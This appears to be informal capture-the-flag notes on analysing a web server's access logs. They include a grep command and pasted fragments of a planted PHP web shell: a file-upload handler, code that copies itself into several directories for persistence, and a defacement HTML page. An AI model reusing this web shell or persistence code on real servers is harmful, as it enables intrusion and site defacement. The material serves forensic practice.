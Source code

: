 
    Challenge
    2 Solves

Web Disruption!
800

<<<Sorry this ones file was too big for GitHub @ over a 100Mb>>>
Please use this link to download...

 [[ https://ctf.hackersacademy.com/challenges#Web%20Disruption ]]

We noticed a weird behavior in out web server lately!
Analyze the access logs and show us what you can find!
something that the hacker would do to maintain his access to the breached server

BEST SO FAR = 

			c90 + c99 but big data iin c90
cat access.log | grep -i "shell" | grep HTTP/1\%2E1\"\ 200

giving...

{ if(@copy($_FILES["f"]["tmp_name"],$_FILES["f"]["name"])){echo"<b>berhasil</b>-->".$_FILES["f"]["name"];}else{echo"<b>gagal";}}  
{ if(@copy($_FILES["emad"]["tmp_name"],$_FILES["emad"]["name"])){echo"<b></b>-->".$_FILES["emad"]["name"];}else{echo"<b>";}}}
?>';
$r=fopen("apis.php", "w"); fwrite($r,$file1); fclose($r);
$r=fopen("../apis.php", "w"); fwrite($r,$file1); fclose($r);
$r=fopen("../images/apis.php", "w"); fwrite($r,$file1); fclose($r);
$r=fopen("../bin/apis.php", "w"); fwrite($r,$file1); fclose($r);
$r=fopen("../images/index.php", "w"); fwrite($r,$file1); fclose($r);
$file111 = '<html>
<head>
<title>
HaCkeD by MuhmadEmad
</title>
</head>
<body bgcolor=white>
<div style="text-align: center;"><font size="6" face="comic sans ms"><b>HaCkeD By  MuhmadEmad</b></font></div>
<div style="text-align: center;"><font size="5" face="comic sans ms"><b><br /></b></font></div>
<div style="text-align: center;"><font size="5" face="comic sans ms"><b>Long Live to peshmarga <br></b></font></div>
<div style="text-align: center;"><br /></div>
<p>
<div style="text-align: center;"><img src="http://zonehmirrors.org/defaced/2015/11/14/demilosightings.com/kurdistantour.net/uploads/statics_image/kurdistan_flag_waving.gif" width=25% hight=35% /></div>
<div style="text-align: center;"><br /></div>
<p>
<div style="text-align: center;"><font size="5" face="comic sans ms"><b>
<p>
KurDish HaCk3rS WaS Here
<p><br> kurdlinux007@gmail.com <br> FUCK ISIS ! 


</body>
</html>
';

